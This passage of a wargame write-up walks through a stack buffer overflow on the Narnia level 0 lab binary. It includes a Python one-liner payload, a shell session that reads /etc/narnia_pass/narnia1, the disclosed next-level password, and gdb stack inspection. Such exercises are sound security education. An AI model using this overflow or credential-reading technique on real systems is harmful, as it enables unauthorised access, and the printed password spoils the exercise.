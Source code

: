 * Exploit successful! val = 0xdeadbeef. But we did not get the shell (**/bin/sh**). 

* To get the shell, consider this .

		narnia0@narnia:/narnia$ (python -c "print 'a' * 20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
		val: 0xdeadbeef
		 
		whoami
		narnia1

		id
		uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)

		cat /etc/narnia_pass/narnia1
		efeidiedae

And **GAME OVER!**

* The thought of adding a **cat** command is explained in the **PS** section.

### Password for narnia1: efeidiedae
------------------
**PS**

1. The method used above can be used for simple questions. Generally, there will be a lot of variables out of which one has to be changed, and the value is never printed(unlike the way **val** is printed here) on the console. So, Using this **blackbox** method is not always effective. The following is a systematic method which can be used to solve harder questions also. 

* Load **narnia0** into gdb .
		
		narnia0@narnia:/narnia$ gdb -q narnia0
		Reading symbols from narnia0...(no debugging symbols found)...done.
		(gdb) source /usr/local/peda/peda.py
		gdb-peda$ 
		gdb-peda$ b main
		Breakpoint 1 at 0x8048561
		gdb-peda$ run

* Look at the **<main+10>** th instruction. 

		[-------------------------------------code-------------------------------------]
	   0x8048561 <main+4>:	and    esp,0xfffffff0
	   0x8048564 <main+7>:	sub    esp,0x30
	   0x8048567 <main+10>:	mov    DWORD PTR [esp+0x2c],0x41414141
		=> 0x804856f <main+18>:	mov    DWORD PTR [esp],0x80486a0
	   0x8048576 <main+25>:	call   0x80483f0 <puts@plt>
	   0x804857b <main+30>:	mov    DWORD PTR [esp],0x80486d3
	   0x8048582 <main+37>:	call   0x80483d0 <printf@plt>
	   0x8048587 <main+42>:	lea    eax,[esp+0x18]

* I checked the stack at this point.
		
		gdb-peda$ x/20xw $esp
		0xffffd600:	0x00000001	0x00000000	0xf7e45830	0x0804866b
		0xffffd610:	0x00000001	0xffffd6d4	0xffffd6dc	0x08048641
		0xffffd620:	0xf7fc73dc	0x0804824c	0x08048629	0x41414141
		0xffffd630:	0xf7fc7000	0x00000000	0x00000000	0xf7e2f637
		0xffffd640:	0x00000001	0xffffd6d4	0xffffd6dc	0x00000000
		gdb-peda$ 
